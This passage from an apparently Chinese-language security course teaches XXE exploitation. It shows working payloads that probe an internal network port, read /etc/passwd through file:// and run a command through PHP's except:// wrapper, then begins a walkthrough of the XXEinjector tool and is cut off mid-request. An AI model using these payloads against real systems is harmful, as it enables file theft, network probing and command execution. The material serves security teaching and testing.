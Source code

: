 <pre class="lang-xml" data-nodeid="1076"><code data-language="xml"><span class="hljs-meta">&lt;?xml version = "1.0"?&gt;</span>
<span class="hljs-meta">&lt;!DOCTYPE <span class="hljs-meta-keyword">ANY</span> [
    <span class="hljs-meta">&lt;!ENTITY <span class="hljs-meta-keyword">xxe</span> <span class="hljs-meta-keyword">SYSTEM</span> <span class="hljs-meta-string">"http://192.168.31.124:4444/test"</span>&gt;</span>
]&gt;</span>
<span class="hljs-tag">&lt;<span class="hljs-name">x</span>&gt;</span><span class="hljs-symbol">&amp;xxe;</span><span class="hljs-tag">&lt;/<span class="hljs-name">x</span>&gt;</span><span class="hljs-tag">&lt;/<span class="hljs-name">r</span>&gt;</span>
</code></pre>
<p data-nodeid="1077">由于不存在该端口，所以会出错误：</p>
<p data-nodeid="1793" class=""><img src="https://s0.lgstatic.com/i/image/M00/8E/F5/CgqCHmAGWcqAO_PgAASscDOp6uA731.png" alt="图片1.png" data-nodeid="1797"></p>
<div data-nodeid="1794"><p style="text-align:center">图 1  探测内网端口失败</p></div>




<p data-nodeid="1080">成功的话，会返回空白，通过这种对比差异，可以判断是否利用成功：</p>
<p data-nodeid="2812" class=""><img src="https://s0.lgstatic.com/i/image2/M01/06/D6/Cip5yGAGWdyAQDS2AANXkfuguok138.png" alt="图片2.png" data-nodeid="2816"></p>
<div data-nodeid="2813"><p style="text-align:center">图 2  探测内网端口成功</p></div>




<h4 data-nodeid="1083">2.读取本地文件</h4>
<p data-nodeid="1084">通过 file:// 可以读取本地文件，造成敏感文件泄露：</p>
<pre class="lang-xml" data-nodeid="1085"><code data-language="xml"><span class="hljs-meta">&lt;?xml version = "1.0"?&gt;</span>
<span class="hljs-meta">&lt;!DOCTYPE <span class="hljs-meta-keyword">ANY</span> [
    <span class="hljs-meta">&lt;!ENTITY <span class="hljs-meta-keyword">xxe</span> <span class="hljs-meta-keyword">SYSTEM</span> <span class="hljs-meta-string">"file:///etc/passwd"</span>&gt;</span>
]&gt;</span>
<span class="hljs-tag">&lt;<span class="hljs-name">x</span>&gt;</span><span class="hljs-symbol">&amp;xxe;</span><span class="hljs-tag">&lt;/<span class="hljs-name">x</span>&gt;</span>
</code></pre>
<p data-nodeid="1086">输入上述 XML 提交后，成功读取到 /etc/passwd 文件内容：</p>
<p data-nodeid="1087"><img src="https://s0.lgstatic.com/i/image2/M01/05/7B/CgpVE2AABv6AfyHcAAGL6fVMVng679.png" alt="Drawing 2.png" data-nodeid="1207"></p>
<div data-nodeid="1088"><p style="text-align:center">图 3  利用XXE漏洞读取 /etc/passwd</p></div>
<h4 data-nodeid="1089">3.远程执行命令</h4>
<p data-nodeid="1090">如果是 PHP 环境下并安装 except 扩展，就可以利用它执行系统命令了。这种情况现在已经比较少见了，更多还是要利用其他漏洞来实现命令或代码执行。</p>
<pre class="lang-java" data-nodeid="1091"><code data-language="java">&lt;?xml version = "1.0"?&gt;
&lt;!DOCTYPE ANY [
    &lt;!ENTITY xxe SYSTEM "except://id"&gt;
]&gt;
&lt;x&gt;&amp;xxe;&lt;/x&gt;
</code></pre>
<h3 data-nodeid="1092">XXE 漏洞利用工具</h3>
<h4 data-nodeid="1093">1.XXEinjector</h4>
<p data-nodeid="1094">推荐一款综合型的 XXE 漏洞利用工具<a href="https://github.com/enjoiz/XXEinjector" data-nodeid="1215">XXEinjector</a>，用 Ruby 开发，运行前需要先安装 ruby。</p>
<pre class="lang-java" data-nodeid="1095"><code data-language="java">sudo apt install ruby
</code></pre>
<p data-nodeid="1096">通过输入请求包数据，并指定攻击行为，比如列目录、读文件等。</p>
<pre class="lang-java" data-nodeid="1097"><code data-language="java">$ cat req.txt&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; <span class="hljs-number">1</span> ↵
GET /mmpaymd/ordercallback HTTP/<span class="hljs-number">1.1</span>
Host: <span class="hljs-number">100.95</span><span class="hljs-number">.204</span><span class="hljs-number">.69</span>:<span class="hljs-number">8081</span>
Upgrade-Insecure-Requests: <span class="hljs-number">1</span>